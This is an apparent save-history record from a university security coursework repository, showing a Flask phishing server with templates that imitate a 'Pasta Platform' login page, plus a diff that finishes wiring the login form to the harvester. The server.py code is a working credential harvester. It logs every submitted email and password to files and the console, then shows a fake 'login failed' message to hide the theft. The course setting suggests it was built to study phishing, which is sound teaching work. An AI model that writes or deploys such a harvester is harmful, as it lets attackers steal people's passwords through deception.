
Repository: fuyu12345/ELEC0138Coursework_group10
Page: http://localhost/login
These files come from the project's save history. The page is drawn as it stood at one moment and after the next save; the edit follows.
The browser window is 1280 px wide. The pictures show the whole page.
The page is served by the project's application, run on Flask 3 (server.py).

Above is the page before, as saved 2025-04-15 14:45:01.

### attack_phishing/0138/phishing login/templates/login.html
<!DOCTYPE html>
<html>
<head>
  <title>Login - Pasta Platform</title>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css" rel="stylesheet">
  <style>
    body {
      background: linear-gradient(to right, #dadd6c 0%, #adeb88 100%);
    }
  </style>
</head>
<body>
  <div class="container mt-5">
    <h2>Login</h2>
    <form action="http://localhost:5001" method="post">
      <div class="mb-3">
        <label for="email" class="form-label">Email address</label>
        <input type="email" class="form-control" id="email" name="email" required>
      </div>

      <div class="mb-3">
        <label for="password" class="form-label">Password</label>
        <input type="password" class="form-control" id="password" name="password" required>
      </div>

      <button type="submit" class="btn btn-primary">Login</button>
    </form>
    <div class="mt-3">
      <p>Don't have an account? <a href="#">Register here</a></p>
    </div>
  </div>
</body>
</html>

### attack_phishing/0138/phishing login/server.py
from flask import Flask, request, render_template
from datetime import datetime
import os

app = Flask(__name__)

# Auto-create files with header line if not exist
for file in ['harvested_logins.txt', 'harvested_registers.txt']:
    if not os.path.exists(file):
        with open(file, 'w') as f:
            f.write("timestamp | email:password\n")

def harvest_credentials(source, email, password):
    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    print(f"[{source.upper()}] {email}:{password}")
    with open(f"harvested_{source}s.txt", "a") as f:
        f.write(f"{timestamp} | {email}:{password}\n")

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        email = request.form.get('email')
        password = request.form.get('password')
        harvest_credentials('login', email, password)
        return "<h3>Login failed. Please try again later.</h3>"
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        email = request.form.get('email')
        password = request.form.get('password')
        harvest_credentials('register', email, password)
        return "<h3>Registration failed. Please try again later.</h3>"
    return render_template('register.html')

@app.route('/')
def home():
    return render_template('index.html')

if __name__ == '__main__':
    app.run(port=5001, debug=True)

### attack_phishing/0138/phishing login/templates/base.html
<!DOCTYPE html>
<html lang="en">
<head>
    {% block head %}
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-QWTKZyjpPEjISv5WaRU9OFeRpok6YctnYmDr5pNlyT2bRjXh0JMhjY6hW+ALEwIH" crossorigin="anonymous">
        <title>
        Pasta - {% block title %}{% endblock %}
        </title>
        <style>
            body {
                background: linear-gradient(to right, #dadd6c 0%, #adeb88 100%);
            }
        </style>
    {% endblock %}
</head>
<body>

    {% if session.user_id %}
        <header>
            {% include 'navbar.html' %}
        </header>
    {% endif %}
    <div id="content" class="container-fluid">
        {% with messages = get_flashed_messages(with_categories=true) %}
            {% if messages %}
                {% for category, message in messages %}
                    <div class="alert alert-{{ category }}">{{ message }}</div>
                {% endfor %}
            {% endif %}
        {% endwith %}

        {% block content %}{% endblock %}
    </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-YvpcrYf0tY3lHB60NNkmXc5s9fDVZLESaAA55NDzOxhy9GkcIdslK1eN7N6jIeHz" crossorigin="anonymous"></script>

</html>

After the next save:

Saved 3 min 39 s later.
--- a/attack_phishing/0138/phishing login/templates/login.html
+++ b/attack_phishing/0138/phishing login/templates/login.html
@@ -1,33 +1,20 @@
-<!DOCTYPE html>
-<html>
-<head>
-  <title>Login - Pasta Platform</title>
-  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css" rel="stylesheet">
-  <style>
-    body {
-      background: linear-gradient(to right, #dadd6c 0%, #adeb88 100%);
-    }
-  </style>
-</head>
-<body>
-  <div class="container mt-5">
-    <h2>Login</h2>
-    <form action="http://localhost:5001" method="post">
-      <div class="mb-3">
-        <label for="email" class="form-label">Email address</label>
-        <input type="email" class="form-control" id="email" name="email" required>
-      </div>
+{% extends 'base.html' %}
 
-      <div class="mb-3">
-        <label for="password" class="form-label">Password</label>
-        <input type="password" class="form-control" id="password" name="password" required>
-      </div>
+{% block title %}Login{% endblock %}
 
-      <button type="submit" class="btn btn-primary">Login</button>
-    </form>
-    <div class="mt-3">
-      <p>Don't have an account? <a href="#">Register here</a></p>
-    </div>
+{% block content %}
+<h2>Login</h2>
+<form action="/login" method="POST">
+  <div class="mb-3">
+    <label for="email" class="form-label">Email address</label>
+    <input type="email" class="form-control" id="email" name="email" required>
   </div>
-</body>
-</html>
+
+  <div class="mb-3">
+    <label for="password" class="form-label">Password</label>
+    <input type="password" class="form-control" id="password" name="password" required>
+  </div>
+
+  <button type="submit" class="btn btn-primary">Login</button>
+</form>
+{% endblock %}
